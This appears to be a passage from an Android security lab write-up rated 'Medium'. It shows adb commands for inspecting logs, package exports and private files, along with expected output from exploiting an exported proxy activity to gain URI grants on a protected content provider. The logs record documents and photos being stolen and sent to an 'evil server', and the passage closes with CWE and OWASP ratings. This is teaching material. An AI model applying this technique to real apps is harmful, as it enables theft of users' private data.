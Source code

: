 ```bash
# Monitor for URI permission grants and data theft in logs
adb logcat -s URI_GRANTED:D STOLEN_DOCUMENT:D STOLEN_PHOTO:D DATA_EXFILTRATED:D PHOTO_EXFILTRATED:D

# Verify proxy activity is exported and accessible
adb shell dumpsys package com.documentmanager | grep -A 5 "ProxyActivity"

# Check content provider configuration
adb shell dumpsys package com.documentmanager | grep -A 10 "SecureContentProvider"

# Verify sensitive files exist in app directory
adb shell "run-as com.documentmanager ls -la /data/data/com.documentmanager/files/secure/"

# View actual sensitive document data
adb shell "run-as com.documentmanager cat /data/data/com.documentmanager/files/secure/confidential_report.pdf"
```

**Expected Results:**
```
Direct Provider Access (Blocked):
Error: SecurityException: Permission denial: opening provider com.documentmanager.SecureContentProvider 
from ProcessRecord{abc123 12345:com.android.shell/2000} (pid=12345, uid=2000) 
that is not exported from UID 10123

Proxy Activity Exploitation (Success):
URI_GRANTED: Received URI permissions: content://com.documentmanager.secure/
STOLEN_DOCUMENT: File: confidential_report.pdf, Content: base64encodeddata...
STOLEN_DOCUMENT: File: financial_data.xlsx, Content: spreadsheetdata...
STOLEN_PHOTO: Photo: private_photo1.jpg
PHOTO_STOLEN: Photo data size: 524288 bytes
DATA_EXFILTRATED: Sending confidential_report.pdf to evil server
PHOTO_EXFILTRATED: Uploading private_photo1.jpg (524288 bytes) to evil server

Security Analysis:
ProxyActivity: exported=true (VULNERABLE)
SecureContentProvider: exported=false, grantUriPermissions=true (VULNERABLE COMBINATION)

Exploit Test Output:
[+] Direct provider access blocked (expected)
[+] Proxy activity accessible and processing embedded intents
[+] URI permission grant successful via proxy pattern
[!] VULNERABILITY CONFIRMED: Non-exported provider accessible via URI grants
[+] Sensitive data extracted: documents, photos, financial data
[+] Persistent access maintained via FLAG_GRANT_PERSISTABLE_URI_PERMISSION
```

**Difficulty**: Medium

## Impact Assessment

- **Confidentiality**: Critical - Complete bypass of export restrictions enabling access to protected content providers
- **Integrity**: High - URI permission grants can include write access for data modification
- **Availability**: Medium - Potential for DoS through content provider abuse
- **OWASP Mobile Top 10**: M1 - Improper Platform Usage, M6 - Insecure Authorization, M10 - Extraneous Functionality
- **CWE**: CWE-926 (Improper Export of Android Application Components), CWE-863 (Incorrect Authorization), CWE-284 (Improper Access Control)
